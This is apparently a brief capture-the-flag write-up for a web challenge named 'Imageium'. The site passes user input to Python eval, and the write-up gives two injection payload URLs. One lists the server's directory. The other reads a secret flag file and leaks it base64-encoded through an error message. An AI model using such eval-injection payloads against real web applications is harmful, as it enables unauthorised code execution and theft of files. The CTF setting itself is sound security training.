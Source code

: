 # Imageium

In this challenge, we got a website that let you specify an arithmetic combination
of color channels to pull from an image, and they must've used "eval" in the back-end
when reading the input. The box didn't have many binaries for exfiltration, but it
returned errors to us. The payloads above base64-encode the thing I want, then try
to open it as a file. That triggers a "Can't find file named XXX" error that lets
me exfiltrate.

## Payload

```
http://imageium.sstf.site/dynamic/modified?mode=open(__import__(%27base64%27).b64encode(repr(__import__(%27os%27).listdir()).encode()).decode())
http://imageium.sstf.site/dynamic/modified?mode=open(__import__(%27base64%27).b64encode(open(%22secret/flag.txt%22,%22rb%22).read()).decode())
```